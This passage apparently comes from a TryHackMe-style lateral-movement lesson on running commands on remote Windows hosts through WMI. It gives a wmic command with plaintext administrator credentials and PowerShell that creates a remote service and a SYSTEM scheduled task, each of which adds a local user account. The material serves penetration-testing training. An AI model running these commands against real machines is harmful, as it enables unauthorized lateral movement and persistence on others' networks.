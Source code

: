 Notice that WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:

```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```

## Creating Services Remotely with WMI

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, we can stop and delete the service with the following commands:

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

## Creating Scheduled Tasks Remotely with WMI

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```
